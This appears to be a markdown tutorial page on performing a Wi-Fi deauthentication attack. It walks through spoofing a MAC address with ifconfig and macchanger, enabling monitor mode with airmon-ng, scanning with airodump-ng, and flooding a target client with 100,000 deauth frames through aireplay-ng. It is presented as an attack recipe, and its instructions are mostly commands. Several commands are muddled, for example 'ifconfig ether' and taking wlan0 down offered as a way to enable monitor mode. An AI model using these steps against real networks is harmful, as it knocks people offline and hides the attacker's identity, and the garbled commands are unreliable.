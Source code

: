 ```yaml
---
description: How to perform a De-auth Attack.
---
```


# De-auth attack

## Mac-address

mac address and how to modify/change them. You can change your mac-address according to your needs using any of the 2 methods below:

* `ifconfig ether down` disable the interface 1st.
* `ifconfig ether0 hw ether 00:11:22:33:44:55` change the mac address.
* `ifconfig ether up` enable interface.

### or

* disable interface.
* `macchanger -r wlan0` to set a random mac addr. Use the --help to view more options.
* enable interface.



## Begining the Attack

## Airmon-ng

* enable interface.
* `ifconfig ether up` enable interface.

a utility to put wireless network card adapters into managed, monitor or promiscious mode.



`airmon-ng start wlan0` put wireless adapter card into monitor mode.

`airmon-ng stop wlan0` put wireless adapter card into managed mode.

### or

`iwconfig wlan0 mode Monitor` 2nd method of enabling monitor mode.

### or

`ifconfig wlan0 down` 3rd method of enabling monitor mode.

`airmon-ng check kill` kill all running process that will interfere with the process.

`airmon-ng start wlan0` switch to monitor mode.



## Airodump-ng

a utility for sniffing network packets.

`airodump-ng wlan0mon` starts capturing available wifi networks in the vicinity.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-14-12.png" alt=""><figcaption><p><code>airodump-ng</code></p></figcaption></figure>



## Aireplay-ng

a utility to perform attacks such as de-authenticating connected users from a wifi network.

Aireplay-ng works when Airodump-ng is scanning. ie; Airodump--ng must be scanning live before the Aireplay-ng utility will work.

`aireplay-ng --deauth 100000 -a 98:A9:42:27:A2:CA -c 38:B1:DB:EE:21:39 wlan0mon`  the `--deauth 100000` sends 100000 deauthentication messages to the client, `-a` denotes the Router/AP mac address, `-c` denotes client mac address.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-55.png" alt=""><figcaption><p><code>airodump-ng</code></p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-34.png" alt=""><figcaption><p><code>aireplay-ng</code></p></figcaption></figure>
